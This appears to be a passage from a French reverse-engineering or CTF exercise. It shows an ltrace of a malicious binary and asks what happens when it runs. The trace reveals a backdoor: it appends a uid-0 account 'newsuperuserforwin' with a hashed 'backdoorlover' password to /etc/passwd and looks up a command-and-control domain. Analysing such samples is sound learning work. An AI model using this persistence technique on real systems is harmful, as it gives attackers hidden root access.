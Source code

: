 ```bash
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x45126a78)                                                                                                              = 0x1835c0d3
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x1835c0ce)                                                                                                              = 0x3d73eb82
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x3d73eb4c)                                                                                                              = 0x94091db
rand(0x7fd2d3b2d6a0, 0x7ffe093d5294, 0x108a2e0, 0x94091b4)                                                                                                               = 0x6c04a5d7
calloc(32, 1)                                                                                                                                                            = 0x108a300
getrandom(0x40443c, 1, 2, 48)                                                                                                                                            = 1
strcpy(0x108a300, "backdoorlover")                                                                                                                                       = 0x108a300
strcat("backdoorlover", "7uqb5SDL")                                                                                                                                      = "backdoorlover7uqb5SDL"
crypt("backdoorlover7uqb5SDL", "$6$l84wgJHFiR3z1yP0")                                                                                                                    = "$6$l84wgJHFiR3z1yP0$xDSF0NyzVxFk"...
free(0x108a300)                                                                                                                                                          = <void>
free(0x108a2a0)                                                                                                                                                          = <void>
free(0x108a2c0)                                                                                                                                                          = <void>
free(0x108a2e0)                                                                                                                                                          = <void>
memfrob(0x7ffe093d4240, 18, 0x544434805105e45, 3)                                                                                                                        = 0x7ffe093d4240
memfrob(0x7ffe093d4220, 18, 1, 16)                                                                                                                                       = 0x7ffe093d4220
sprintf("newsuperuserforwin:$6$l84wgJHFiR"..., "%s:%s:%s\n", "newsuperuserforwin", "$6$l84wgJHFiR3z1yP0$xDSF0NyzVxFk"..., "0:0::/root:/bin/sh")                          = 145
fopen("/etc/passwd", "a+")                                                                                                                                               = 0x108a330
fread(0x7ffe093d4300, 4096, 1, 0x108a330)                                                                                                                                = 0
strstr("root:x:0:0:root:/root:/bin/bash\n"..., "newsuperuserforwin")                                                                                                     = "newsuperuserforwin:$6$GzO393y8IX"...
fclose(0x108a330)                                                                                                                                                        = 0
gethostbyname("my-super-c2-for-l33t.fr")                                                                                                                                 = 0
getpid()                                                                                                                                                                 = 223
+++ exited (status 0) +++
```

`ltrace` intercepte et nous affiche tous les appels systèmes/libs. Que se passe-t-il quand on execute le binaire ?
